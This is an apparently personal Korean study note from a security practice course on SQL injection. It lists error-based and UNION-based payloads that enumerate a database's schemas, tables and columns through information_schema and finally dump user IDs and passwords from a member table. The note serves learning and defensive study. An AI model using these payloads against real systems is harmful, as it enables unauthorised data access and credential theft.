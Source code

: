 # 보안실습

### SQL Injection

* 입력 data가 SQL의 구조를 바꾸는 취약점



#### 1. Form Based





#### 2. Error Based

* 에러 미시지로 많은 정보를 취득할 수 있다 - 에러  코드, 상세 정보 등



 group by board_member.idx,board_member.username having 1=1--

-> 칼럼을 추가시켜 하나씩 확인해봄



and db_name()=1--

-> db_name이 1일 이유가 없음 -> 에러 메시지로 알아냄



#### 3. UNION SQL Injection

admin' and db_name()=1--



admin' union select version(),2,3,4,5,6 #



admin' union select schema_name,2,3,4,5,6 from information_schema.schemata#



admin' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema=database()#

-> 사용중인 데이터베이스의 컬럼 얻기(스키마)



admin' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_name='board_member'#

 -> 테이블 명을 알아낸 후 컬럼 얻기



admin' union select idx,userid,userpw,username,5,6 from board_member#

-> 테이블 데이터를 다 볼수있다(털림)



#### 4. stored procedure SQL injection
